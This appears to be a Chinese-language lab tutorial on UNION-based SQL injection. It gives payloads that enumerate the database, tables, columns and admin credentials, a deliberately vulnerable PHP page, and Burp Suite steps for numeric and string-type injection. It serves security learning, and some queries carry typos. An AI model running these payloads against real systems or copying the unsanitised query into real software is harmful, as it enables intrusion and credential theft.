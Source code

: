 # ==SQL注入利用 - Union联合注入==

## 联合注入原理

在SQL语句中查询数据时，使用select相关语句与where条件子句筛选符合条件的记录

```SQL
select * from person where id = 1; #在person表中，筛选出id=1的记录
```

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827110238591.png" alt="image-20230827110238591" style="zoom:200%;" />

如果该id=1中的1时用户可以控制输入的部分时，就有可能存在SQL注入漏洞

```SQL
数据库提供联合查询，使得可以将两条SQL查询语句的结果进行链接，务必注意：两者的字段数必须一致。
select * from person where id = 1 union select 1,2,database(),4,5;
```

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827132129918.png" alt="image-20230827132129918" style="zoom:200%;" />

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827132801077.png" alt="image-20230827132801077" style="zoom:200%;" />

从上图可知，在使用union时，union后面的拼接语句则字段数必须和union前面的SQL语句字段数相同，否则就会报错。那么我们该如何得知上一份语句查询结果的字段数呢？我们看下面的方法

判断联合查询语句中的字段数时，可以使用order by num。当依次增大num时，如果出现错误，那么上一条SQL查询语句的结果字段数就为num-1

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827133548237.png" alt="image-20230827133548237" style="zoom:200%;" />

联合查询利用SQL注入漏洞语句：

（1）执行联合查询

```SQL
select * from person where id = 1 union select 1,2,3,4,5;
```

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827134033085.png" alt="image-20230827134033085" style="zoom:200%;" />

（2）查询数据库名，版本号，用户信息

```SQL
select * from person where id = 1 union select 1,2,database(),version(),user();
```

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827134242233.png" alt="image-20230827134242233" style="zoom:200%;" />

（3）查询数据表名

```SQL
select * from person where id = 1 union select 1,2,(select table_name from information_schema.tables where table_schema=database() limit 0,1),4,5;
#table_name - 要查询的字段名
#table_schema - 要查找的数据库
#information_schema.tables - 这是数据库表

#这里的limit 0,1的意思是，从0号位置开始，向后读取1个大小的位置
或
select * from person where id = 1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()),4,5;

#利用group_cancat(table_name)函数，将查询结果连接成一行展示出来
```

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827151930767.png" alt="image-20230827151930767" style="zoom:200%;" />

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827152452363.png" alt="image-20230827152452363" style="zoom:200%;" />

（4）查询字段名

```SQL
select * from person where id = 1 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='admin'),4,5;
#从数据库中的columns表中找到admin字段的相关字段名并组合成一行显示出来
或
select * from person where id = 1 union select 1,2,(select group_concat(column_name) from information_schema.columns where tanle_name=0x61646D696E),4,5;
```

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827155204728.png" alt="image-20230827155204728" style="zoom:200%;" />

（5）查询具体数据

```SQL
select * from person id = 1 union select 1,concat(username,0x5c,password),3,4,5 from admin;
或
select * from person id = 1 union select 1,concat(uesername,0x5c,password),3,4,5 from admin limit 0,2;
```

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827164733669.png" alt="image-20230827164733669" style="zoom:200%;" />

**注意：union联合查询注入利用只适用于页面中有返回结果的SQL语句查询。用户输入不同id值，页面会返回不同的内容，此时优先考虑union联合查询SQL注入利用方式**



## 联合注入实验

实验1：burpsuite数字型联合注入利用

```php
实验PHP源代码:

	$id = $_GET["id"];
	$conn = mysql_connect('localhost’,'root'，'123456') or die('连接数据库失败!');
	mysql_query('set names utf-8', $conn);
	mysql_query('use web_sql', $conn);
	$sql ="select * from person where id = {Sid}"; #区分数字 、 字符
	$res = mysql_query($sql,$conn) or die(mysql_error());
	$arr = mysql_fetch_assoc($res);
	
页面输出代码:

	<td><?php echo $arr['id'];?></td>
	<td><?php echo $arr['name'];?></td>
	<td><?php echo $arr['age'];?></td>
	<td><?php echo $arr['phone'];?></td>
	<td><?php echo $arr['email'];?></td>
```

 **注意：在burp中自己编写代码时，空格要么用+要么用%20来代替，否则空格不会作为url编码会出错**

burp实验：

截取

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827213849258.png" alt="image-20230827213849258" style="zoom:200%;" />

action中发送给repeater，然后在最上面的repeater中进行查看

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827213945685.png" alt="image-20230827213945685" style="zoom:200%;" />

先通过order by num来判断数据的列数

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827214347181.png" alt="image-20230827214347181" style="zoom:200%;" />

为了防止id=2的时候，显示结果只是union前一半的结果，所以我们需要让union前一半的语句报错，从而只执行union后面的SQL语句，我们可以在id=-2就好了，而且从此可以得知这也是数字注入

![image-20230827214815080](C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827214815080.png)

然后查看数据库，版本信息，用户信息

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827221642259.png" alt="image-20230827221642259" style="zoom:200%;" />

然后就要查看这个数据库中所具有的表的信息，有哪些表名，会发现数据库中有admin和person两个数据表

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827222316322.png" alt="image-20230827222316322" style="zoom:200%;" />

现在我们有了表名我们就需要查询数据表中的列名，此时需要将table换位column，为了保险起见我们将数据表名换位十六进制来查找，可以防止一些错误，我们可以看到查询结果中admin这个数据表中有id username password三个字段

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827222904423.png" alt="image-20230827222904423" style="zoom:200%;" />

接下来我们就需要对这三个字段的具体信息进行查询

<img src="C:\Users\hp\AppData\Roaming\Typora\typora-user-images\image-20230827223206840.png" alt="image-20230827223206840" style="zoom:200%;" />



实验2：Burp字符型联合注入利用

```sql
Mysql中注释：#、 --+  闭合引号

select * from articles where id = '1'

select * from articles where id = '1'  --+'

select * from articles where id = '1'  union注入利用语句 --+'    
```

这里的--+'也可以替换为 or '1 ' 是为了逃避引号

总结：

1.从原理上掌握联合查询诸如利用技术

2.掌握Burp suite对注入点进行union联合查询注入